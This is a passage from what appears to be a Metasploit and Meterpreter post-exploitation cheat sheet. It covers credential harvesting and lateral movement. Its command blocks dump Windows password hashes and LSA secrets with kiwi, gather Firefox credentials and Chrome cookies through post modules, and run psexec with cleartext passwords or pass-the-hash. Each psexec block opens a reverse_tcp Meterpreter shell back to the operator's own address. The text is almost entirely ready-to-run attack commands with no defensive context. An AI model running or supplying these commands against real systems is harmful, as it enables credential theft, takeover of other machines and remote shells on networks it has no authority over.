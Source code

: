 ## Credential Harvesting

### Windows Credentials
```meterpreter
# Dump hashes
hashdump

# Use kiwi extension
load kiwi
creds_all

# Dump LSA secrets
use kiwi_cmd
lsa_dump_secrets
```

### Browser Credentials
```meterpreter
# Dump browser credentials
use post/multi/gather/firefox_creds
set SESSION [id]
run

# Chrome credentials
use post/multi/gather/chrome_cookies
set SESSION [id]
run
```

## Lateral Movement

### PSExec
```msf
use exploit/windows/smb/psexec
set RHOSTS [target]
set SMBUSER [username]
set SMBPASS [password]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [your_ip]
run
```

### Pass the Hash
```msf
use exploit/windows/smb/psexec
set RHOSTS [target]
set SMBUSER [username]
set SMBPASS [hash_in_lm:ntlm_format]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [your_ip]
run
```
